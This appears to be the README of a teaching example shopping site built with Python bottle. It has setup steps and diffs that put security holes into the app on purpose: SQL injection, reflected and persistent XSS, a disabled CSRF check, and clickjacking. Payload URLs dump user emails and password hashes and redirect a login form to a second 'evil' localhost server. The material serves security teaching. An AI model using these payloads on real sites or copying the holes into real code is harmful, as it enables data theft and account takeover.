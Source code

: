 # bottle-store

EC site example using Python bottle.

## はじめかた（Windows）

PythonとVSCodeをインストールします。

仮想環境を作ります。仮想環境名は```venv```とします。

```console
> py -m venv venv
(venv)>
```

必要なモジュールをインストールします。

```console
(venv)> pip install -r requirements.txt
```

署名付きcookieのための鍵を環境変数```STORE_SECRET_KEY```に設定します（設定し忘れるとRuntimeErrorが発生します）。

```console
(venv)> set STORE_SECRET_KEY=<署名付きcookieのための鍵（文字列）>
```

サーバーを起動します。localhost:8080で立ち上がります。

```console
(venv)> py app.py
```

Webブラウザーで http://localhost:8080/ にアクセスすると使えます。

# SQL Injection

```diff:app.py
-        results = cur.execute("SELECT * FROM rated_products WHERE name LIKE ?;", ("%" + query + "%",)).fetchall()
+        results = cur.execute("SELECT * FROM rated_products WHERE name LIKE %'" + query + "%'").fetchall()
```

```
http://localhost:8080/products?q='
```

```
http://localhost:8080/products?q='--
```

```
http://localhost:8080/products?q=x%' UNION SELECT 1, tbl_name, 1, 1, 1, 1 FROM sqlite_master--
```

```
http://localhost:8080/products?q=x%' UNION SELECT 1, id, email, 1, hashed_password, nickname FROM users--
```

# Reflected XSS

```diff:app.py
-<p style="color:red;"> {{ message }} </p>
+<p style="color:red;"> {{ !message }} </p>
```

```
http://localhost:8080/login?message=<s>hello</s>
```

```
http://localhost:8080/login?message=<script>window.onload=function(){document.querySelector('form').action='http://localhost:8081/users'}</script>
```

# CSRF and Persistent XSS

```diff:app.py
-    if form_token != cookie_token:
-        abort(400, '不正なアクセスです。')
+    #if form_token != cookie_token:
+    #    abort(400, '不正なアクセスです。')
```

```
http://localhost:8081/evil_game1
```

```diff:app.py
-        <li>{{ comment }}</li>
+        <li>{{ !comment }}</li>
```

```
http://localhost:8081/evil_game2
```

# Clickjacking

```diff:app.py
-    response.headers['X-Frame-Options'] = 'DENY'
+   response.headers['X-Frame-Option'] = 'DENY'
```

```
http://localhost:8081/evil_game3
```

# DOM based XSS

